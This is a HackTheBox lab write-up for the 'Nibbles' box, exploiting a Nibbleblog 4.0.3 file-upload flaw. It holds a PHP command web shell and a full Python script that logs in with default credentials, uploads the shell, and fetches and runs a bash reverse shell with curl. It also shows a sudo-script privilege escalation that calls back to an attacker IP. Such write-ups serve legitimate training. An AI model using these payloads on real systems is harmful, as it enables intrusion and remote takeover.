

This box was an easy box from HackTheBox. It's OS is Linux and the entry point is with Web App. We have a vulnerable version of this blog installed in the system.

After get the shell by uploading a php file there the root we get with a script which we can run as root.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.75
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


We look the source code of the app


```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

### nibbleblog/

We open it on the browser


Seems to be a blog

We see that it's a nibbleblog

And we can get the source page of it


We see on github it's folder structure

[Nibbleblog](https://github.com/dignajar/nibbleblog)


With the README file we can get the version of the nibbleblog


We see that we have an exploit on metasploit exactly for this version, seems that we are on the right path


After read the exploit, let's get the reverse shell manually

A good reference is [this](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html) blog.

# Manually

First we need to login on the app. As it is an easy box from hackthebox, possibly it's going to be the standart credentials for access.


We try admin/nibbles and get in


We go to

```
http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
```


And we upload a simple cmd php

```php
<?php system($_REQUEST['cmd']); ?>
```


We got some errors, but the image was uploaded


We visit the place where it was uploaded

```
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

And we get RCE


And here we got the reverse shell


Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_nibbles.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Nibbles - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the shell.sh file
def createPayload(lhost,lport):
    print("[+] Let's creat the shell.sh file !! [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("shell.sh", "w")
    f.write(payload)
    f.close()
    print("[+] File Created !!! [+]")

# Let's login as admin on the app
def LoginAdmin(rhost):
    print("[+] Let's login as admin ! [+]")
    url = "http://%s:80/nibbleblog/admin.php?controller=user&action=login" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "nibbles"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In !! [+]")

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    url = "http://%s/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image" %rhost
    data = '<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'plugin' : (None,"my_image"),
        'title' : (None,"My image"),
        'position' : (None,"4"),
        'image_resize' : (None,"1"),
        'image_width' : (None,"230"),
        'image_height' : (None,"200"),
        'image_option' : (None,"auto"),
        'image': ('shell.php', data, "application/x-php")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

def getReverse(rhost,lhost):
    print("[+] Let's get the reverse shell !! [+]")
    url = "http://%s:80/nibbleblog/content/private/plugins/my_image/image.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"cmd": "/usr/bin/curl %s/shell.sh | bash" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    os.system("rm shell.sh")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Nibbles AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the shell.sh file
    createPayload(lhost,lport)
    # Login as admin
    LoginAdmin(rhost)
    # Upload Malicious
    maliciousUpload(rhost)
    # Get Reverse shell
    getReverse(rhost,lhost)

if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# nibbles -> root

With `sudo -l` we see that we can execute a script as root


We create this file on the folder

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.9/4444 0>&1' > monitor.sh
```


And now we get root

